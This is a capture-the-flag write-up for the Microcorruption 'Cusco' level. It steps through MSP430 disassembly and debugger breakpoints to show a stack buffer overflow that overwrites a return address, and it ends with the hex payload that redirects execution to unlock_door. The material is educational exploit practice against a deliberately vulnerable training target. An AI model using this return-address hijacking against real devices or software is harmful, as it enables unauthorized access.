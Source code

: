 # Cusco  

`main` now only calls the `login` function:  

```nasm
4438 <main>
4438:  b012 0045      call	#0x4500 <login>
```

Looking at `login`:  

```nasm
4500 <login>
4500:  3150 f0ff      add	#0xfff0, sp
4504:  3f40 7c44      mov	#0x447c "Enter the password to continue.", r15
4508:  b012 a645      call	#0x45a6 <puts>
450c:  3f40 9c44      mov	#0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call	#0x45a6 <puts>
4514:  3e40 3000      mov	#0x30, r14
4518:  0f41           mov	sp, r15
451a:  b012 9645      call	#0x4596 <getsn>
451e:  0f41           mov	sp, r15
4520:  b012 5244      call	#0x4452 <test_password_valid>               ; Breakpoint 1 goes here
4524:  0f93           tst	r15
4526:  0524           jz	#0x4532 <login+0x32>
4528:  b012 4644      call	#0x4446 <unlock_door>
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	#0x4536 <login+0x36>
4532:  3f40 e144      mov	#0x44e1 "That password is not correct.", r15
4536:  b012 a645      call	#0x45a6 <puts>
453a:  3150 1000      add	#0x10, sp
453e:  3041           ret
```

This time the `TST / JMP` is different:  

```nasm
4520:  b012 5244      call	#0x4452 <test_password_valid>
4524:  0f93           tst	r15
4526:  0524           jz	#0x4532 <login+0x32>
```

So the result of the `test_password_valid` is 0.  Then the JMP is taken down to "That password is not correct".  

```nasm 
4452 <test_password_valid>
4452:  0412           push	r4
4454:  0441           mov	sp, r4
4456:  2453           incd	r4
4458:  2183           decd	sp
445a:  c443 fcff      mov.b	#0x0, -0x4(r4)
445e:  3e40 fcff      mov	#0xfffc, r14
4462:  0e54           add	r4, r14
4464:  0e12           push	r14
4466:  0f12           push	r15
4468:  3012 7d00      push	#0x7d
446c:  b012 4245      call	#0x4542 <INT>           ; Breakpoint 2 goes here.
4470:  5f44 fcff      mov.b	-0x4(r4), r15
4474:  8f11           sxt	r15
4476:  3152           add	#0x8, sp
4478:  3441           pop	r4
447a:  3041           ret
```

This is less intuitive than last time, so walk through it and see what happens.  I've annotated two breakpoints, so set them on `4520` and `446c`.  The first breakpoint is on the `test_password_valid` call itself, while the second one is another `call` inside of it.  Instead of deep diving the second breakpoint (not needed, yet), watch what happens below.  
As always, this program wants up to 16 characters of input, but from previous, we'll toss in a few more.  
Use the following 24 character string (non-hex.. for now):  
```
AAAABBBBCCCCDDDDEEEEFFFF
```
This is pretty common in any buffer overflow, because `A` is `0x41`, `B` is `0x42`, up to `F` being `0x46`.  

![](images/2021-04-17-10-18-37.png)  

`c`ontinue until the first breakpoint is hit:  
![](images/2021-04-17-10-20-58.png)  

`c`ontinue until the second breakpoint is hit:  
![](images/2021-04-17-10-21-38.png)  

Step over this breakpoint by using `n`ext instruction.  
![](images/2021-04-17-10-22-12.png)  

Continue using `n`ext instruction until you are sitting on the `ret`:  
<table style="width:100%">  
    <tr>
        <td><img src="images/2021-04-17-10-23-01.png"></td> <!--Row 1: Left side/Column 1-->
        <td><img src="images/2021-04-17-10-23-16.png"></td> <!--Row 1: Right side image/Column 2-->
    </tr>
</table>  

Looking at the `sp`'s **value** shows where we are going to `ret` to.  Why does this matter here?  It doesn't at this moment.. but good habits to get into.  Knowing where you are / going.  
This shows we'll be `ret` to `24 45`, but remember **endianness** so that's `4524`, hit `s`tep and you'll see the `pc` and current instruction is `4524` as expected:  


<table style="width:100%">  
    <tr>
        <td><img src="images/2021-04-17-10-29-00.png"></td> <!--Row 1: Left side/Column 1-->
        <td><img src="images/2021-04-17-10-29-08.png"></td> <!--Row 1: Right side image/Column 2-->
    </tr>
</table>  

`n`ext instruction, you'll see the `tst` occur, and then get ready to take the `jz` at address `4526`:  
<table style="width:100%">  
    <tr>
        <td><img src="images/2021-04-17-10-32-01.png"></td> <!--Row 1: Left side/Column 1-->
        <td><img src="images/2021-04-17-10-32-12.png"></td> <!--Row 1: Right side image/Column 2-->
    </tr>
</table>  

At this point when you hit `n`ext instruction you're going to have this happen:  
<table style="width:100%">  
    <tr>
        <td><img src="images/2021-04-17-10-34-13.png"></td> <!--Row 1: Left side/Column 1-->
        <td><img src="images/2021-04-17-10-34-25.png"></td> <!--Row 1: Right side image/Column 2-->
    </tr>
</table>  

Notice the program counter `pc` is at `0x4545`?  We control EIP.  You can use `s`tep instead of `n`ext instruction if you want to see how it specifically occurs.. but it doesn't matter.. yet.  
So what can we do with this?  Well just redirect the code to right below the `jz`:  
```nasm
4528:  b012 4644      call	#0x4446 <unlock_door>               ; Overflow and JMP to this address
452c:  3f40 d144      mov	#0x44d1 "Access granted.", r15
4530:  023c           jmp	#0x4536 <login+0x36>
```

`reset` the program and this time, swap it to HEX input and enter:  
```
414141414141414141414141414141412845
```

That is **16** `A`'s (0x41) followed by the address `4528`, but in little endian form:  
![](images/2021-04-17-10-40-07.png)  

`solve` the program with that input!
